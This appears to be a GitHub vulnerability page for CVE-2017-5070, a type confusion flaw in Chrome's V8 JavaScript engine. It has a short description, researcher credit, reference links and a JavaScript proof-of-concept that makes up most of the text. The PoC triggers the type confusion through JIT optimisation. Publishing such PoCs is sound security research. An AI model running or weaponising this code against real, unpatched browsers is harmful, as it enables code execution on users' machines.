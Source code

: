 # CVE-2017-5070
* Date : Apr 2019
* Credit : Zhao Qixun(@S0rryMybad) of Qihoo 360 Vulcan Team

## Description
Type confusion in V8 in Google Chrome prior to 59.0.3071.86 for Linux, Windows, and Mac, and 59.0.3071.92 for Android, allowed a remote attacker to execute arbitrary code inside a sandbox via a crafted HTML page.

## PoC
```js
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
assertEquals(expected, double_arr2[1]);
```

## Reference
[NVD](https://nvd.nist.gov/vuln/detail/CVE-2017-5070)
[issue 722756](https://bugs.chromium.org/p/chromium/issues/detail?id=722756)
[Chrome 58.0.3029.110](https://filehippo.com/download_google_chrome/75223/)